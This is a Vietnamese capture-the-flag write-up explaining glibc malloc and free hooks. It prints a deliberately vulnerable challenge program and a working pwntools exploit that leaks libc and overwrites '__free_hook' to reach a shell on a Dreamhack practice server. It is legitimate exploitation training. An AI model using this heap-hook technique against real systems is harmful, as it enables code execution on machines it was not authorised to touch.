







# Hook
- Về cơ bản "hook" thường được sử dụng để chỉ các điểm trong mã nguồn mà bạn có thể mở rộng hoặc tùy chỉnh hành vi. Một hook (hoặc còn được gọi là "giắc cắm") cho phép bạn gắn kết mã của riêng bạn vào một phần của mã nguồn đã tồn tại mà không cần sửa đổi mã nguồn gốc. Khi điều kiện nào đó xảy ra, mã của bạn sẽ được gọi và thực thi.
- cách để khai thác thì bạn có thể hiểu như sau:
    - Thư viện GNU C cung cấp các biến như `__malloc_hook`,` __realloc_hook` và `__free_hook`
    dùng để sửa đổi hành vi thực thi lệnh của các hàm như `malloc`, `realloc` và `free` bằng cách là các hàm trên sẽ gọi lên các biến hook để thực thi 1 địa chỉ mà các biến hook đó trỏ tới.
    
- Để có thể hiểu rõ hơn về nguyên lý hoạt động của hook chúng ta có thể tham khao bài sau , 1 trong các cách mà ta có thể `OW hook`.
## Thực Hành
### 1. Source
```
// gcc -o init_fini_array init_fini_array.c -Wl,-z,norelro
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int main(int argc, char *argv[]) {
    long *ptr;
    size_t size;

    initialize();

    printf("stdout: %p\n", stdout);

    printf("Size: ");
    scanf("%ld", &size);

    ptr = malloc(size);

    printf("Data: ");
    read(0, ptr, size);

    *(long *)*ptr = *(ptr+1);

    free(ptr);
    free(ptr);

    system("/bin/sh");
    return 0;
}

```
### 2. Hướng giải
- Vừa nhìn vào bài thì ta có thể thấy ở đây:
    
- Thì ở đây là 1 con trỏ nó đc trỏ vào biến `buf` mà ta `read` vào ở trên.
- Với cấu trúc của 1 con trỏ thì 8byte đầu nó nhận vào và 8byte sau nhập vào, ta có thể hiểu rằng là 8byte đầu sẽ là 1 địa chỉ và 8 byte sau sẽ là dữ liệu ta muốn đc nhập vào nó có thể là 1 `giá trị` hay 1 `địa chỉ` để sau khi `free(buf)` nó sẽ thực thi 1 địa chỉ mà 1 `hook` đang trỏ tới.

- Bạn có thể thấy ảnh trên khi ta nhập 8byte `A` và 8byte `B` thì ngay lập tức chương trình đã gán `BBBBBBBB` vào địa chỉ `AAAAAAAA` , đồng thời chương trình cũng thực hiện `free()` tận 2 lần thế nên ta phải thực hiện ở lần `free()` đầu tiên là gán 8byte đầu = địa chỉ của `hook` và 8byte sau = địa chỉ `system` ,  để ở lần `free()` đầu tiên nó sẽ thực thi luôn hàm `system` nếu không ta sẽ bị vướn vào lỗi `double free` với cùng 1 `chunks` mà không có cách nào fix được. Đó là lý do ta không **bắt buộc** phải cho nó thực thi `system` ngay ở `free()` đầu tiên.
- Bắt tay vào làm thì chương trình đã cho ta địa chỉ của `stdout` , với địa chỉ trên ta có thể leak đc `libc_base` từ đó ta có thể tìm đc địa chỉ của `hook`.
- 
- Với source code trên ta có thể thấy đơn giản là leak `libc_base` sau đấy là gọi ra địa chỉ `hook` tương ứng với `free()` là `__free_hook` và truyền vào đấy 1 giá trị test để xem ta đã gán được chưa và khi thử thì ta đã thành công gán vào đc địa chỉ của hook rồi ( đặt breakpoint ở `free()` đầu để xem ) , tiếp theo chỉ thì ta chỉ cần để cho hàm `free()` nó thực thi địa chỉ của `system` là xong..

- Hãy nhìn hình trên , về cơ bản sau khi `free()` thực thì nó sẽ nhảy thẳng đến địa chỉ đó và thực thi nó , đồng nghĩa với việc ở trường hợp này ta đang skip 1 đoạn của chương trình khiến nó ko thực thi 2 lần `free()` liên tiếp mà nhảy thẳng tới chỗ `system` luôn nên sẽ không bị lỗi `double free` nữa, giống như cách ta đang cố `return` tới thẳng thứ ta muốn mà không cần phải thỏa các điều kiện khác.
- Ta hoàn thiện source code như sau:
    
    - bước tiếp theo ta nối thử sever và chạy thử source code xem có thành công không nhóe.
    
    - Sau khi nối với sever thì ta đã thành công thu đc flag r :Đ .

### 3. Source code
```
#!/usr/bin/python3

from pwn import *

exe = ELF('hook_patched', checksec=False)
libc = ELF('libc-2.23.so', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b*0x0000000000400a00

                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('host3.dreamhack.games', 23204)
else:
        p = process(exe.path)

GDB()
p.recvuntil(b"stdout: ")
libc_leak = int(p.recvline()[:-1], 16)
libc.address = libc_leak - 0x3c5620
info('libc_leak: ' + hex(libc_leak))
info('libc_base: ' + hex(libc.address))

sla(b"Size: ", b'512')
payload = flat(
    libc.sym['__free_hook'], 0x0000000000400a11 # ở địa chỉ này chỉ kẹp 1 địa chỉ vào rdi không ảnh hưởng gì đến chương trình 
                                                # nên ta nhảy vào đây cho chắc ăn :Đ
)
sla(b"Data: ", payload)

p.interactive()
```
